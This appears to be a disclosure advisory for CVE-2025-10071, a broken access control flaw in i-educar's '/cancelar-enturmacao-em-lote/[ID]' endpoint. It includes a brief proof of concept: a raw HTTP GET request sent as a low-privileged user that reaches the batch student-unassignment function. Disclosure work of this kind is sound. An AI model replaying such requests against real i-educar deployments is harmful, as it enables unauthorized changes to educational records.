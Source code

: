 # Broken Access Control  in `/cancelar-enturmacao-em-lote/[ID]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/cancelar-enturmacao-em-lote/[ID]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET cancelar-enturmacao-em-lote/[ID]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/92bd1530-2721-444b-a5d3-6e41acf111f4" />
<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/c240e2b9-ac6a-4e5a-994f-597d5549498e" />

    
2. Send the following request::

```
GET /cancelar-enturmacao-em-lote/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/enturmacao-em-lote/15
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to batch unassign students from classes. And, this user, should not do that.

<img width="1573" height="669" alt="Pasted image 20250821195629" src="https://github.com/user-attachments/assets/49fba1df-e935-48ed-b1ac-1dcf6ea35e4b" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-10071](https://www.cve.org/CVERecord?id=CVE-2025-10071)

[VulnDB-323019](https://vuldb.com/?id.323019)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
